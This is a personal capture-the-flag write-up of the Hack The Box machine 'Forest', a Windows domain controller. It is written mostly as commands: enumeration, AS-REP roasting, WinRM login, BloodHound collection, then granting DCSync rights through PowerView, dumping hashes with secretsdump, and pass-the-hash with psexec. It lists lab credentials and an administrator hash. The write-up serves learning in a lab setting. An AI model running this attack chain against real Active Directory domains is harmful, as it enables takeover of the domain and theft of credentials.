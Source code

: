 # Enumeration 
Windows Server 2016 Standard 14393 x64 
name:FOREST
domain:htb.local

## open ports

```
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-01-20 06:31:08Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0 
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

```

### Port 53

No zone transfer

### Port 135
`rpcclient -U% $ip `

![[Pasted image 20230120083329.png]]

users:
svc-alfresco
lucinda
andy
mark
santi

svc-alfresco looks interesting cos it's service account
trying ASP-roasting

`GetNPUsers.py htb.local/svc-alfresco -no-pass`
![[Pasted image 20230120083557.png]]
it worked!

# Privesc 

using evil-wirm to login 
`evil-winrm -i $ip -u svc-alfresco -p 's3rvice'`
![[Pasted image 20230120083856.png]]
using evil-wirm to login 


running impacket bloodhound to collect info about the domain
`bloodhound-python --dns-tcp -ns $ip -d htb.local -u 'svc-alfresco' -p 's3rvice' -c all`

![[Pasted image 20230120114650.png]]


our user svc-alfresco is a member of Account Operators and Account Operators has GenericAll on Exchange Windows Permissions which has WriteDacl perm on the domain which means:
1. Create new user 
2. add the new user to Exchange windows permissions group
3.  give new user DCSync rights
4. dump hashes with secrets dump 
![[Pasted image 20230120120939.png]]

```
. .\PowerView-Dev.ps1 # run powerview 
net user super Password1 /add
dd-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members super # add super to group
$SecPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force # add password string
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\super', $SecPassword) # add creds with new user super
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -Principa
lIdentity super -Verbose -Domain htb.local # give user DCSync rights 
secretsdump.py htb.local/super:Password1@$ip  # dump hashes
```

![[Pasted image 20230120121229.png]]
`psexec.py administrator:@$ip -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'`

![[Pasted image 20230120121254.png]]


# Loot

svc-alfresco user creds:
	username: svc-alfresco
	password: s3rvice


---
Tags: #ctf #htb #AD #ASP_roasting #secretsdump #DCSync #rpc
Resources: [Forest](https://app.hackthebox.com/machines/212)